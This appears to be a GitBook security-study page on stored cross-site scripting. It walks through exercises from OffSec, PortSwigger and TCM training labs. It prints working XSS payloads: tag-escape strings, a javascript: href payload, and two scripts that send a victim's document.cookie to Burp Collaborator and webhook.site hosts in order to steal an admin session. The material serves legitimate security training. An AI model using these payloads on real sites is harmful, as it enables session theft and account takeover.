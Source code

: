 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Stored

{% hint style="info" %}
**Stored XSS** occurs when malicious scripts are permanently stored on the server and then served to users who view the stored content.
{% endhint %}

{% hint style="danger" %}
This can lead to persistent attacks, where the malicious script runs every time the stored content is accessed, potentially stealing user data, performing actions on behalf of users, or defacing the website.
{% endhint %}

## Stored Server XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The Blog we are testing has two fields: `username` and `comment`. When we test the latter for HTML injection it does not work as the `<>` characters are filtered out by the application (Figure 1). However, the HTML injection works on the `username` field (Figure 2).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_server_1.png" alt=""><figcaption><p>Figure 1: Testing the <code>comment</code> field for HTML injection.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/web_xss_stored_server_2.png" alt=""><figcaption><p>Figure 2: Enumerating a vulnerable to HTML injection field.</p></figcaption></figure>

Next, we can test for XSS on the `username` field (Figure 3), and if successful, every user that visits the page will have the payload executed on their browser.

<figure><img src="../../../../.gitbook/assets/web_xss_stored_server_3.png" alt=""><figcaption><p>Figure 3: Enumerating a vulnerable to XSS field.</p></figcaption></figure>

## Stored Client XSS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

This time the application in question has a survey form to complete that includes six fields in total, two of them vulnerable to **HTML injection** (Figure 4).&#x20;

<figure><img src="../../../../.gitbook/assets/web_xss_stored_client_1.png" alt=""><figcaption><p>Figure 4: Stepping through the application and testing for HTML injection.</p></figcaption></figure>

If we test for XSS we get a prompt box back (Figure 5.1), and we can review how this exactly works via the source code of `survey.js` file. At the end of this file, the `getData` function sends a `GET` request and constructs the results table on the front-end (Figure 5.2).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_client_2.png" alt=""><figcaption><p>Figure 5: Achieving XSS and reviewing how it worked.</p></figcaption></figure>

## href Attribute

> _The example below is based on PortSwigger's_ [_Stored XSS into anchor `href` attribute with double quotes HTML-encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded) _lab._

In this application there is a comment functionality which includes a `Website` field and its value is stored within the HTML `href` attribute (Figure 6).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_1.png" alt=""><figcaption><p>Figure 6: Identifying potential XSS vectors.</p></figcaption></figure>

We can try escaping the tag using different payloads, but, unfortunately, none of them works.

```javascript
// JaveScript payloads used to escape 
"><script>alert()</script>
"><img src=x onerror=alert()>
```

However, **the `href` attribute can itself create a** [**scriptable context**](https://blog.udemy.com/javascript-href/), thus, we are not required to escape it. In this case, we can use the `javascript` pseudo-protocol directly (Figure 7).

```javascript
// JaveScript payloads used
javascript:alert()
```

<figure><img src="../../../../.gitbook/assets/web_xss_stored_2.png" alt="" width="563"><figcaption><p>Figure 7: Achieving Stored XSS via a URI-scheme based payload.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a ticket functionality and it give us access to both a low- (`UserA`) and a high-privileged account (`AdminA`) (Figure 8).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_1.png" alt=""><figcaption><p>Figure 8: Setting up FireFox's  <a href="../../authorization/automated-a-b-testing.md#multi-account-containers">Multi-Account Containers</a> for XSS testing.</p></figcaption></figure>

We can use a web server, such as Burp's Collaborator or [Webhook](https://webhook.site/), and use `userA` to send a JavaScript payload to `AdminA` through the description box on the Support Ticket page. When the latter receives and opens `userA`'s ticker, a `GET` request will be sent to our server containing `AdminA`'s session cookie (Figure 9 & 10).

{% code overflow="wrap" %}
```javascript
// collaborator payload
<script>
    fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com',
        {
            method: 'POST',
            mode: 'no-cors',
            body:document.cookie
        });
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_collaborator.png" alt=""><figcaption><p>Figure 9: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_webhook.png" alt=""><figcaption><p>Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>
